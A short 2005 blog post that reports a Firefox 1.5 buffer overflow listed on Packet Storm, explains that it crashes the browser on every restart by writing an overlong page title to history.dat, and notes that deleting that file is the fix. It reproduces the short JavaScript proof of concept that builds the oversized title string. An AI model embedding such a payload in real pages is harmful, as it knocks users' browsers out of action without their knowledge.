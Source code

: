 ```yaml
---
title: "Firefox buffer overflow"
slug: "firefox-buffer-overflow"
date: "2005-12-07T19:05:00-06:00"
author: "fak3r"
categories:
- General
tags:
- code
- hacker
- security
---
```


There's a [Firefox buffer overflow](http://packetstormsecurity.org/0512-exploits/firefox-1.5-buffer-overflow.txt) script listed on Packet Storm.  The Javascript can be embedded into HTML and make Firefox log a very long topic line into its history.dat file.  Any ensuing Firefox starts will cause a crash due to a buffer overflow.  The fix would be to delete the history.dat file, which would be recreated automatically during the next start, but that's not something most users would know.  I'm sure this will be patched quickly, but this has to be the first type of bug I've seen targeting Firefox.




    
    <code>function ex() {
    var buffer = "";
    for (var i = 0; i < 5000; i++) {
    buffer += "A";
    }
    var buffer2 = buffer;
    for (i = 0; i < 500; i++) {
    buffer2 += buffer;
    }
    document.title = buffer2;
    }</code>



